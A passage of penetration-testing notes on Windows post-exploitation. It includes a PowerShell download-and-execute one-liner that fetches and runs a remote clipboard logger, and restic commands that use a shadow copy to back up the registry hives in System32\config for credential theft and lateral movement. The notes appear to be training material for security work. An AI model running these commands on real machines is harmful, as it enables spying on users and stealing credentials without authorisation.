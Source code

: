 ```

                --Clipboard

        
        We can use the Invoke-Clipboard script to extract user clipboard data. Start the logger by issuing the command below.

        (  https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1  )

        PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')

        PS C:\> Invoke-ClipboardLogger





                --Roles and Services
        
        -Attacking Backup Servers

        Typically backup systems need an account to connect to the target machine and perform the backup. Most companies require that backup accounts have local administrative privileges on the target machine to access all its files and services.

        If we gain access to a backup system, we may be able to review backups, search for interesting hosts and restore the data we want.

        As we previously discussed, we are looking for information that can help us move laterally in the network or escalate our privileges. Let's use restic as an example. Restic is a modern backup program that can back up files in Linux, BSD, Mac, and Windows.

        To start working with restic, we must create a repository (the directory where backups will be stored). Restic checks if the environment variable RESTIC_PASSWORD is set and uses its content as the password for the repository. If this variable is not set, it will ask for the password to initialize the repository and for any other operation in this repository.

        We will use restic 0.13.1 and back up the repository C:\xampp\htdocs\webapp in E:\restic\ directory. To download the latest version of restic, visit https://github.com/restic/restic/releases/latest. On our target machine, restic is located at C:\Windows\System32\restic.exe.

        We first need to create and initialize the location where our backup will be saved, called the repository.

        -restic - Initialize Backup Directory

        PS C:\> mkdir E:\restic2; restic.exe -r E:\restic2 init

        -restic - Back up a Directory

        PS C:\> $env:RESTIC_PASSWORD = 'Password'
        PS C:\> restic.exe -r E:\restic2\ backup C:\SampleFolder


        !!!If we want to back up a directory such as C:\Windows, which has some files actively used by the operating system, we can use the option --use-fs-snapshot to create a VSS (Volume Shadow Copy) to perform the backup.


        -restic - Back up a Directory with VSS

        PS C:\> restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot
```